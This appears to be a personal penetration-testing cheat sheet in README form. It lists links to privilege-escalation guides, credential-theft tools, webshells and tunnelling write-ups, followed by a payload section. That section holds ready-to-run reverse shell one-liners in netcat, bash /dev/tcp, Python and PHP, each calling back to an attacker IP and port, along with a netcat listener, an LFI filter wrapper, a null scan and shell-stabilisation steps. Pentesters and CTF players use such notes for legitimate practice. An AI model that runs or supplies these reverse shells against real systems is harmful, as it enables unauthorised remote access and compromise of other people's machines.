 # Resources
A collection of links and payloads I stored for quick access
# LINKS
## Overviews
- [**Pentesting Map**](https://www.offensity.com/en/blog/just-another-recon-guide-pentesters-and-bug-bounty-hunters/)
- [**Bug Bounty Writeups**](https://hackerone.com/hacktivity)
- [**Bug Bounty Cheatsheat**](https://github.com/EdOverflow/bugbounty-cheatsheet)

## Windows Pentesting
### Microsoft SQL Server 
- [**MSSQL Pentesting**](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)
- [**Impacket mssqlclient Reverse Shell**](https://rioasmara.com/2020/05/30/impacket-mssqlclient-reverse-shell/)
### Windows Privillage Escalation
- [**NTLM Theft**](https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds)
- [**Windows Local Privillage Escalation**](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#krbrelayup)
- [**Windows Local Privillage Escalation Checklist**](https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation)
- [**Juicy Potato Exploit**](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/juicypotato)
- [**Potatoes**](https://jlajara.gitlab.io/Potatoes_Windows_Privesc#sweetPotato)
- [**Pass The Hash**](https://www.netwrix.com/pass_the_hash_attack_explained.html)
- [**Print Spoofer**](https://github.com/itm4n/PrintSpoofer)
- [**Sweet Potato**](https://github.com/uknowsec/SweetPotato)
- [**Druva insyncCPHwnet64.exe POC**](https://github.com/tenable/poc/blob/master/druva/inSync/druva_win_cphwnet64.py)
- [**Druva explanation**](https://www.tenable.com/security/research/tra-2020-34)
## Hash Cracking

- [**HashCat Beginner Guide**](https://resources.infosecinstitute.com/topic/hashcat-tutorial-beginners/)
- [**Hash Analyzer**](https://www.tunnelsup.com/hash-analyzer/)
- [**Zip and rar Cracking with john**](https://dfir.science/2014/07/how-to-cracking-zip-and-rar-protected.html)
## Log4J
- [**Log4j Exploatation**](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi)
##MetaSploit Framework 
- [**Meterpreter Shell Basics**](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-a-reverse-shell-in-metasploit.html#step-1-generate-the-executable-payload)
- [**Pivoting With Metasploit**](https://infinitelogins.com/2021/02/20/using-metasploit-routing-and-proxychains-for-pivoting/)
- [**Relaying With Metasploit**](https://medium.com/axon-technologies/how-to-implement-pivoting-and-relaying-techniques-using-meterpreter-b6f5ec666795)
## Payloads
- [**Apache Tomcat RCE through WAR file**](https://null-byte.wonderhowto.com/how-to/hack-apache-tomcat-via-malicious-war-file-upload-0202593/)
- [**Server SideTemplate Injection Payloads**](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
- [**Jenkins Pentesting**](https://book.hacktricks.xyz/cloud-security/jenkins#code-execution)
- [**Payloads Of All Things**](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [**MSSQL Injection Cheatsheat**](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
- [**XP_cmdshell cheatsheat**](https://www.hackingarticles.in/mssql-for-pentester-command-execution-with-xp_cmdshell/)
- [**LOCAL FILE INCLUSION**](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
- [**Python Library Hijacking**](https://medium.com/@klockw3rk/privilege-escalation-hijacking-python-library-2a0e92a45ca7)
## Reverse Engineering
- [**Write-up for ROP exploit**](https://shakuganz.com/2021/06/08/hackthebox-you-know-0xdiablos-write-up/)
- [**Return Oriented Programing**](https://bufferoverflows.net/rop-manual-exploitation-on-x32-linux/)

## Linux Privillage Escalation
- [**GTFO bins**](https://gtfobins.github.io/)
- [**LXD Privillage Escalation**](https://www.hackingarticles.in/lxd-privilege-escalation/)
- [**LXD Exploatation**](https://steflan-security.com/linux-privilege-escalation-exploiting-the-lxc-lxd-groups/)
- [**Escape from Restrictd Shells**](https://0xffsec.com/handbook/shells/restricted-shells/)
- [**Traitor**](https://github.com/liamg/traitor)
- [**Python Library Hijacking on Linux**](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8)
## PIVOTING && TUNNELING
- [**Pivoting with Chisel**](https://ap3x.github.io/posts/pivoting-with-chisel/)
- [**Tunneling with Chisel and SSF 0XDF**](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)
- [**NOTES ABOUT TUnneling and Pivoting**](https://0xdf.gitlab.io/2019/01/28/pwk-notes-tunneling-update1.html)
- [**SSH Tunneling**](https://0xdf.gitlab.io/2018/06/10/intro-to-ssh-tunneling.html)
- [**Shades of Tunneling Article**](https://karol-mazurek95.medium.com/the-shades-of-tunneling-a8b6ce1d7fed)
- [**Tunneling and Port FOrwarding**](https://book.hacktricks.xyz/generic-methodologies-and-resources/tunneling-and-port-forwarding#chisel)
## Shells
- [**Webshells**](https://github.com/BlackArch/webshells)
- [**Reverse Shell Generator**](https://www.revshells.com/)
- [**NC.EXE**](https://github.com/int0x33/nc.exe/blob/master/nc.exe)
## Tools
- [**SecLists**](https://github.com/danielmiessler/SecLists)
- [**Responder**](https://github.com/SpiderLabs/Responder)
- [**Impacket**](https://github.com/SecureAuthCorp/impacket)
- [**SQL Map**](https://github.com/sqlmapproject/sqlmap)
- [**XSS Strike**](https://github.com/s0md3v/XSStrike)
- [**ffuf**](https://github.com/ffuf/ffuf)
- [**WinPeas**](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
- [**Rogue JNDI**](https://github.com/veracode-research/rogue-jndi)
- [**RsaCtfTool**](https://github.com/RsaCtfTool/RsaCtfTool)
- [**Ghidra**](https://github.com/NationalSecurityAgency/ghidra/releases)
- [**OllyDBG**](https://www.ollydbg.de/)
- [**checksec**](https://github.com/slimm609/checksec.sh)
- [**LaZagne**](https://github.com/AlessandroZ/LaZagne)
- [**File Magic Numbers**](https://gist.github.com/leommoore/f9e57ba2aa4bf197ebc5)
# Payloads
##SSHuttle connection
```
sshuttle -vr balthazar@10.10.110.110 172.16.1.0/24 -x 172.16.1.100
```
## PHP Wrapper
```php://filter/convert.base64-encode/resource=```
## Profiling Password Lists
### CEWL
```ULTIMATE WAY OF CREATING A WORDLIST
1.DIRECTORY BRUTEFORCING
feroxbuster -eknr --wordlist $HOME/tools/crimson/words/dir -u https://<target_domain>/ -o ferox.txt
2. PREPARE FIRST PART OF THE cewl.txt
cat ferox.txt | grep 200 | grep -v "png\|\.js" | cut -d "h" -f2-100 | sed "s/^/h/g" >> urls.txt
for url in $(cat urls.txt); do echo $url && cewl -d 5 $url >> temp_cewl.txt;done
cat temp_cewl.txt | sort -u >> cewl.txt && rm temp_cewl.txt
```
## Nmap
### Null Scan 
```nmap  -n -sN 10.10.110.0/24```
## Local Webserver

### Python

```python
python -m SimpleHTTPServer
```

```python
python3 -m http.server
```

### PHP
```php
php -S 0.0.0.0:8000
```

## Shells

### Set Listener 
```bash
nc -lnvp 4000
```

### [Reverse Shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
#### netcat:
```bash
nc -e /bin/sh 10.10.15.22 4000
```
#### PHP:
```<?php $sock = fsockopen("ip","port");$proc = proc_open("/bin/sh -i", array(0=>$sock,1=>$sock,2=>$sock),$pipes);?>```
#### Bash
```bash
bash -i >& /dev/tcp/10.10.15.22/4000 0>&1
```
#### Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.22",4000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
### Interactive Shell

#### Bash
```python
python(3) -c 'import pty; pty.spawn("/bin/bash")'
```
```cmd
Ctrl-Z
```
```cmd
stty raw -echo
```
```
fg
```
